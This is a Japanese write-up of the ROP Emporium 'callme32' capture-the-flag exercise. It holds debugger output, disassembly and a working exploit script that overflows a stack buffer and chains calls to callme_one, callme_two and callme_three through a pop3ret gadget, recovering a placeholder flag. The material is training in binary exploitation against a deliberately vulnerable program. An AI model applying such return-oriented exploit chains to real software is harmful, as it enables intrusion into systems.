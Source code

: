 ```
patto -> 44
```

ようやくROPらしい問題

libcallme32.so という共有ライブラリが渡されている

```
gdb-peda$ i func
All defined functions:

Non-debugging symbols:
0x08048558  _init
0x08048590  printf@plt
0x080485a0  fgets@plt
0x080485b0  callme_three@plt
0x080485c0  callme_one@plt
0x080485d0  puts@plt
0x080485e0  exit@plt
0x080485f0  __libc_start_main@plt
0x08048600  setvbuf@plt
0x08048610  memset@plt
0x08048620  callme_two@plt
0x08048640  _start
0x08048670  __x86.get_pc_thunk.bx
0x08048680  deregister_tm_clones
0x080486b0  register_tm_clones
0x080486f0  __do_global_dtors_aux
0x08048710  frame_dummy
0x0804873b  main
0x080487b6  pwnme
0x0804880c  usefulFunction
0x08048850  __libc_csu_init
0x080488b0  __libc_csu_fini
0x080488b4  _fini
```

`callme_one, callme_two, callme_three, usefulFunction` 辺りを使いそう

```
gdb-peda$ disas usefulFunction
Dump of assembler code for function usefulFunction:
0x0804880c <+0>: push   ebp
0x0804880d <+1>:  mov    ebp,esp
0x0804880f <+3>: sub    esp,0x8
0x08048812 <+6>:  sub    esp,0x4
0x08048815 <+9>: push   0x6
0x08048817 <+11>: push   0x5
0x08048819 <+13>:  push   0x4
0x0804881b <+15>: call   0x80485b0 <callme_three@plt>
0x08048820 <+20>:  add    esp,0x10
0x08048823 <+23>: sub    esp,0x4
0x08048826 <+26>:  push   0x6
0x08048828 <+28>: push   0x5
0x0804882a <+30>:  push   0x4
0x0804882c <+32>: call   0x8048620 <callme_two@plt>
0x08048831 <+37>:  add    esp,0x10
0x08048834 <+40>: sub    esp,0x4
0x08048837 <+43>:  push   0x6
0x08048839 <+45>: push   0x5
0x0804883b <+47>:  push   0x4
0x0804883d <+49>: call   0x80485c0 <callme_one@plt>
0x08048842 <+54>:  add    esp,0x10
0x08048845 <+57>: sub    esp,0xc
0x08048848 <+60>:  push   0x1
0x0804884a <+62>: call   0x80485e0 <exit@plt>
 ```

とりあえず `usefulFunction` に飛ばしてみるも確か `callme_three` でつまずく

`callme_one, callme_two, callme_three` の詳細を知るために、渡された共有ライブラリを逆アセンブルする

```shell
$ objdump -d -M intel libcallme32.so > libcallme32.dis
```

軽く見てみるとone, two, threeとも1,2,3という引数が渡されているかチェックしていて、間違っていると `Incorrect parameters` と表示するようになっている

よって、とりあえず `callme_three` を引数1,2,3で呼んでみる

```shell
$ python -c 'print "A" * 44 + "\xb0\x85\x04\x08" + "A" * 4 + "\x01\x00\x00\x00" + "\x02\x00\x00\x00" + "\x03\x00\x00\x00"' > input.txt
# "A" * 4 というのはcallme_threeのreturnアドレス、このようにダミーでもいいのでreturnアドレスを置いておかないと、引数が上手く渡ってくれない
$ gdb callme32

gdb-peda$ b *0x0804880b # pwnmeのretにBreakpoint
Breakpoint 1 at 0x804880b
gdb-peda$ run < input.txt
```

すると `callme_three` は `key2.dat` というファイルを開いているのがわかる。同様に他の２つも見てみると、 `callme_two` が `key1.dat` を `callme_one` が `encrypted_flag.txt` を開いているのがわかる。

よって、 `callme_one` を呼んでから `callme_two` , `callme_three` の順に呼べばデコードしてくれそうだなと推測する。

やってみると、

```shell
~/yyy-d/work/ctf/pwn/ROP-Emporium/callme32:yyy@[master](๑˃̵ᴗ˂̵)ﻭ < python exploit.py
[+] Starting local process './callme32': pid 14010
callme by ROP Emporium
32bits

Hope you read the instructions...
>
[*] Process './callme32' stopped with exit code 0 (pid 14010)
ROPE{a_placeholder_32byte_flag!}
```

コードはexploit.pyにある


exploit.pyより
```python
payload = ''
payload += 'A' * 44
payload += "\xc0\x85\x04\x08"  # callme_one@plt
payload += "\xa9\x88\x04\x08"  # pop3ret (return addr)
payload += argument # callme_one(1, 2, 3)
payload += "\x20\x86\x04\x08"  # callme_two@plt
payload += "\xa9\x88\x04\x08"  # pop3ret
payload += argument
payload += "\xb0\x85\x04\x08"  # calle_three@plt
payload += 'A' * 4             # padding
payload += argument
payload += '\n'
```
本来 `callme_one` のreturnアドレスが入るところにはpop3ret gadgetを置いている

これにより、 `callme_one` に渡した引数3つをスタックから除くことができ、スタックをいい感じに調整できる

他の2つも同様に、いい感じに配置する
